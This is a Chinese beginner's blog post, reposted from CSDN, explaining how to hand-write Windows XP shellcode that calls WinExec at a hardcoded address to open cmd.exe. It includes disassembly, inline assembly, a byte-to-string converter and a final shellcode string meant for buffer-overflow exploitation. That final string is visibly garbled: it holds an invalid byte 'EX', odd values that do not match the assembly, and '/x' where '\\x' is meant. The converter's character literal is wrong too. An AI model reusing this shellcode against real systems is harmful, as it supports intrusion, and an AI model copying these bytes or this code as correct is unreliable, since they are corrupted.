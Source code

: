 ```yaml
---
layout: post
categories: shellcode
title: Shell初级入门程序
date: 2018-04-11 13:12:45 +0800
description: shellcode 进行服务器的渗透
keywords: shellcode linux
---
```


## 前言

很久没有写博客了，今天写写一个以前没有写过的话题，缓冲区溢出shellcode编写。

我是菜鸟，以前没有写过shellcode，最近也在忙着网络的渗透，栈溢出也是零零碎碎的看到一些知识，大牛飘过，菜鸟言论仅供娱乐。

大家同是菜鸟的人可以看看，我是站在初学者的角度写这篇文章的，所以初学者应该比较容易理解。

对于一些复杂的shellcodet我们暂且先不谈，我们先来看看自己编写一个打开cmd窗口的shellcode。其实黑客防线上有位大神执笔写了一系列exploit的编写，有兴趣的人自己去看看。

## 首先我们需要了解一下windows的运行机制。我们先写一个简单的开启本地cmd窗口的程序：

```c
#include<windows.h>  
Void main()  
{  
   WinExec("cmd.exe",1);  
} 
```


### 在Visual C++上按F10进入反汇编代码:

```c
:#include”windows.h”  
2:void main()  
3:    {  
00401010   push        ebp  
00401011   mov         ebp,esp  
00401013   sub         esp,40h  
00401016   push        ebx  
00401017   push        esi  
00401018   push        edi  
00401019   lea         edi,[ebp-40h]  
0040101C   mov         ecx,10h  
00401021   mov         eax,0CCCCCCCCh  
00401026   rep stos    dword ptr [edi]  
4:        WinExec("cmd.exe",1);  
00401028   mov         esi,esp  
0040102A   push        1  
0040102C   push        offset string "cmd.exe" (0041f01c)  
00401031   call        dword ptr [__imp__WinExec@8 (0042413c)]  
00401037   cmp         esi,esp  
00401039   call        __chkesp (00401070)  
5:    }  
```


通过这个程序我们可以清楚的看到计算机在调用WinExec函数的时候是先把两个参数从右至左一次压入栈，然后调用call函数转到WinExec的地址去。但是要注意的是call函数除了实现地址的跳转还有一点就是把当前的EIP压入栈。

对于shellcode是机器码，大多数人看到都会晕乎乎的，但是不用怕，我们所要做的工作不是用机器码写这一大堆东西，这些计算机已经为我们做的很好了，我们所要做的就是用汇编甚至是高级语言写下我们要实现的代码。




但目前其实目的已经很明确，我们要调用WinExec函数就要知道在不同系统中WinExec函数所在的地址，那么用什么方法知道这个函数所在的地址呢？这里我介绍一种非常简便的办法，使用vc自带的depends工具。打开Depends，随便拖一个PE文件进去如下图：

![](http://112firshme11224.test.upcdn.net/demos/feb1aef7-5ae0-43d1-bdbf-b234589fa766.jpeg)


我们可以看到KERNEL.DLL的入口地址是0x7c800000而WinExec的入口地址是0x0006250D那么WinExec的地址就出来了两个相加得到0x7C86250D，这个方法是不是很简单？另外本菜鸟使用的是windows XP sp3不同的系统可能有所不同。

有了入口地址，我们可以用汇编来编写我们的shellcode，

```c
#include<windows.h>  
void main()  
{  
    _asm  
    {  
        push ebp  
        mov ebp,esp  
        xor edi,edi  
        push edi  
        sub esp,04h  
        mov [ebp-08h],63h  
        mov [ebp-07h],6Dh  
        mov [ebp-06h],64h  
        mov [ebp-05h],2Eh  
        mov [ebp-04h],65h  
        mov [ebp-03h],78h  
        mov [ebp-02h],65h  
        push 1         //压入第一个参数  
        lea eax,[ebp-08h]           
        push eax           //压入第二个参数  
        mov edx,0x7C86250D  
        call edx            //调用WinExec  
        leave  
    };  
}  

```

按F10进入反汇编调试器中，在按Alt+8看到汇编代码，此时并没有机器码啊，别着急，在空白的地方右击出现的下拉菜单中选中Code Byte一项。看看出现了什么？在每一行汇编代码前出现了机器码！如下图

![](http://112firshme11224.test.upcdn.net/demos/0d6ce28d-d9c8-47b8-b21b-1eeb923c9754.bmp)

下面要做的工作就是把这些机器码抄下来了，这个是体力活。直接抄在一起比如：558BEC83EC……那么我们还要在每两个字母前手动添加/x么？当然不用，写一个小程序，一劳永逸：

```c
#include "stdio.h"  
#include "stdlib.h"  
int main()  
{  
    FILE *fp1=NULL,*fp2=NULL;  
    char ch,filename[20]={0};  
    printf("请输入文件路径：(注意字符转义)/n");  
    scanf("%s",filename);  
    if((fp1=fopen(filename,"rb"))==NULL)  
    {  
        printf("不能读取文件！/n");  
        exit(0);  
    }  
    if((fp2=fopen("shellcode.txt","w+"))==NULL)  
    {  
        printf("不能写入文件！/n");  
        exit(0);  
    }  
    while (!feof(fp1))  
    {  
        ch=fgetc(fp1);  
        fputc('//',fp2);  
        fputc('x',fp2);  
        fputc(ch,fp2);  
        ch=fgetc(fp1);  
        fputc(ch,fp2);  
    }  
    printf("转换成功！");  
    fclose(fp1);  
    fclose(fp2);  
    return 0;  
      
}  
```

最终转换的shellcode就是

```c
/x55/x8B/xEX/x83/xEC/x40/x53/x56/x57/x8D/x7D/xC0/xB9/x10/x11/x11/x11/xB8/xCC/xCC/xCC/xCC/xF3/x1B/x55/x8B/xEC/x33/xFF/x57/x83/xEC/x04/xC6/x45/xF8/x63/xC6/x45/xF9/x6D/xC6/x45/xFA/x64/xC6/x45/xFB/x2E/xC6/x45/xFC/x65/xC6/x45/xFD/x78/xC6/x45/xFE/x65/x6A/x01/x8D/x45/xF8/x50/xBA/x0D/x25/x86/x7C/xFF/xD2/xC9
```
到这里该讲的都讲完了，还是那一句话，菜鸟言论，大牛飘过。。。

### 原文：https://blog.csdn.net/yiyefangzhou24/article/details/6440239






转载请注明出处，本文采用 [CC4.0](http://creativecommons.org/licenses/by-nc-nd/4.0/) 协议授权
